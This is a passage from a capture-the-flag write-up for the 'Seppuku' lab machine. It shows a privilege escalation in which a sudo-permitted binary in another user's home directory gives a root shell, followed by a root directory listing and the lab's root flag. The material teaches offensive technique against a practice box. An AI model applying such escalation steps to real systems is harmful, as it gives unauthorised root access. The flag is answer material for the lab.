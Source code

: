 Now back to samurai:

~~~
samurai@seppuku:~$ sudo /home/tanto/.cgi_bin/bin /tmp/*
root@seppuku:/home/samurai# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Let's get the root flag:

~~~
root@seppuku:/home/samurai# cd /root
root@seppuku:~# ls -la
total 40
drwx------  5 root root 4096 May 13 10:42 .
drwxr-xr-x 18 root root 4096 May 13 00:25 ..
-rw-------  1 root root  126 May 13 10:53 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 13 10:41 .gnupg
drwxr-xr-x  3 root root 4096 May 13 02:53 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   24 May 13 04:51 root.txt
-rw-r--r--  1 root root   66 May 13 05:31 .selected_editor
drwxr-xr-x  2 root root 4096 May 13 10:39 .ssh
root@seppuku:~# cat root.txt 
{SunCSR_Seppuku_2020_X}
~~~
